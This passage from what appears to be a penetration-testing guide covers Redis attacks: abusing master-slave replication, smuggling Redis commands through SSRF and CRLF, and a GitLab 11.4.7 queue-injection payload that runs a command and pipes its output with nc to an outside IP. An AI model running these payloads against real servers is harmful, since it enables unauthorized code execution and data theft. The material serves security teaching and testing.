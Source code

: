 * [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

### Master-Slave Module

​The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```

## SSRF talking to Redis

If you can send **clear text** request **to Redis**, you can **communicate with it** as Redis will read line by line the request and just respond with errors to the lines it doesn't understand:

```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```

Therefore, if you find a **SSRF vuln** in a website and you can **control** some **headers** (maybe with a CRLF vuln) or **POST parameters**, you will be able to send arbitrary commands to Redis.

### Example: Gitlab SSRF + CRLF to Shell

In **Gitlab11.4.7** were discovered a **SSRF** vulnerability and a **CRLF**. The **SSRF** vulnerability was in the **import project from URL functionality** when creating a new project and allowed to access arbitrary IPs in the form \[0:0:0:0:0:ffff:127.0.0.1] (this will access 127.0.0.1), and the **CRLF** vuln was exploited just **adding %0D%0A** characters to the **URL**.

Therefore, it was possible to **abuse these vulnerabilities to talk to the Redis instance** that **manages queues** from **gitlab** and abuse those queues to **obtain code execution**. The Redis queue abuse payload is:

```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```
